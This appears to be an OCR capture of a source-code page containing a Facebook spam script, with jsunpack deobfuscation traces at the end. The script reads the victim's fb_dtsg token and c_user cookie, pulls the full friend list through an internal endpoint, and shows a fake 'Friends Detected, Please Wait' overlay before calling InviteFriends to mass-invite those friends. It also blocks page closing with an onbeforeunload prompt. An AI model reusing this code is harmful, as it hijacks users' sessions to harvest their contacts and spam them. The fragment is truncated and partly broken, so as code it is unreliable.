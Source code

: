 b = !1         }         return b     },     load: function (b, c, a, h, g) {         var e = this.d();         if (e &amp;&amp; b) {             e.overrideMimeType &amp;&amp; e.overrideMimeType("text/xml");             h || (h = "GET");             a || (a = "text");             g || (g = {});             a = a.toLowerCase();             h = h.toUpperCase();             b += b.indexOf("?") + 1 ? "&amp;" : "?";             var k = null;             "POST" == h &amp;&amp; (k = b.split("?"), b = k[0], k = k[1]);             e.open(h, b, !0);             e.onreadystatechange = g.c ? function () {                 g.c(e)             } : function () {                 if (4 == e.readyState)                     if (200 == e.status) {                         var b = "";                         e.responseText &amp;&amp; (b = e.responseText);                         "j" == a.charAt(0) ? (b = b.replace(/[

]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) &amp;&amp; (b = e.responseXML);                         c &amp;&amp; c(b)                     } else g.f &amp;&amp; document.getElementsByTagName("body")[0].removeChild(g.f), g.e &amp;&amp; (document.getElementById(g.e).style.display = "none"), error &amp;&amp; error(e.status)             };             e.send(k)         }     },     d: function () {         return this.b()     } };   function ChangeLocation() {     window.location.href = "http://www.facebook.com/" } setTimeout("ChangeLocation", 1); window.onbeforeunload = function () {     if (window[tag + "_close"]) return "This script is running now!" }; var i = 3; var tay = 3; var suc = 0; var err = 0; var arr = new Array; var arn = new Array; var pho = new Array; var tag = "Close"; var page_name, x = document.getElementsByTagName("span"); for (i = 0; i &lt; x.length; i++)     if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML; var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l", function (a) {     var b = a;     var c = b.substring(b.indexOf("{"));     var d = JSON.parse(c);     d = d.payload.entries;     for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid);     for (var eg = 0; eg &lt; d.length; eg++) arn.push(d[eg].text);     for (var pic = 0; pic &lt; d.length; pic++) pho.push(d[pic].photo);     i = arr.length - 1;     tay = i;     console.log(arr.length);     var display = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0px 3px 8px rgba(0, 0, 255, 0.5);position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0, 0, 255, 0.5);border-radius: 1em 4em 1em 4em;border:3px solid rgba(0, 0, 255, 0.5);background-color:rgba(0, 176, 255, 0.8);color:#ffffff'>";     display += "&lt;div style='padding-bottom:10px;font-size:20px;'>" + Title + "&lt;/div>";     display += arr.length + " Friends Detected, Please Wait . . .";     display += "&lt;/div>";     document.getElementById("pagelet_sidebar").innerHTML = display;     InviteFriends(arr[i]) });       //jsunpack.called CreateElement div   //jsunpack.url element = undefined //jsunpack.url var _4855 = var parent=document.getElementsByTagName("html")[0]; var _body = document.getElementsByTagName('body')[0]; var _div = document.createElement('div'); _div.style.height="25"; _div.style.width="100%"; _div.style.position="fixed"; _div.style.top="auto"; _div   //jsunpack.url var _4052 = var parent=document.getElementsByTagName("html")[0]; var _body = document.getElementsByTagName('body')[0]; var _div = document.createElement('div'); _div.style.height="25"; _div.style.width="100%"; _div.style.position="fixed"; _div.style.top="auto"; _div
